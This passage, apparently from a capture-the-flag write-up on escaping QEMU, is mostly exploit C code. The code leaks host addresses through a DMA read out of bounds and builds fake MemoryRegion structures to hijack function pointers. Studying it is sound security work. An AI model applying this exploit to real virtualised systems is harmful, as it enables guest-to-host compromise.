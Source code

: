 ```c

	out = mmap(NULL, DMA_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
	if (out == MAP_FAILED)
		err(EXIT_FAILURE, "mmap");
	memset((void*)out, 0, DMA_SIZE);

	return out;
}

void unmap_buf(volatile void* buf) {
	munmap((void*)buf, DMA_SIZE);
}

void get_leaks(volatile void* mem) {
	volatile void* buf;
	u64 buf_phys;

	buf = map_buf();
	buf_phys = virt2phys(buf);

	read_from_dma_buf(mem, buf_phys, sizeof(u64), DMA_SIZE + (6 * 8));
	leak = *(volatile u64*)buf;
	qemu_system = leak - 0x37b7b0;
	ops_addr = leak + 0x663a10;

	/* We set `src` to be a negative value, which becomes a big value when casted to unsigned */
	read_from_dma_buf(mem, buf_phys, sizeof(u64), (u64)(-((5 * 8) + (MEMORYREGION_SIZE - 80))));
	cloudstate_addr = *(u64*)buf;
	mmio_addr = cloudstate_addr + PCIDEVICE_STRUCT_SIZE;
	dma_buf_addr = cloudstate_addr + PCIDEVICE_STRUCT_SIZE + MEMORYREGION_SIZE + (5 * 8);

	unmap_buf(buf);
}
```

Of course, in order to replace the fields we want, we need to have similar structures to the one qemu uses:

```c
/* Replacement for MemoryRegionOps. Size=80 */
struct FakeRegionOps {
	volatile void* read;
	volatile void* write;
	volatile unsigned char b[80 - 16];
};

/*
 * Replacement for MemoryRegion.
 * (gdb) print (int)&((struct MemoryRegion*)0)->ops
 * $3 = 72
 * (gdb) print (int)&((struct MemoryRegion*)0)->opaque
 * $4 = 80
 * (gdb) print sizeof(struct MemoryRegion)
 * $5 = 240
 */
struct FakeRegion {
	unsigned char p[72];
	const struct FakeRegionOps *ops;
	void *opaque;
	unsigned char b[240 - 16 - 72];
};
```
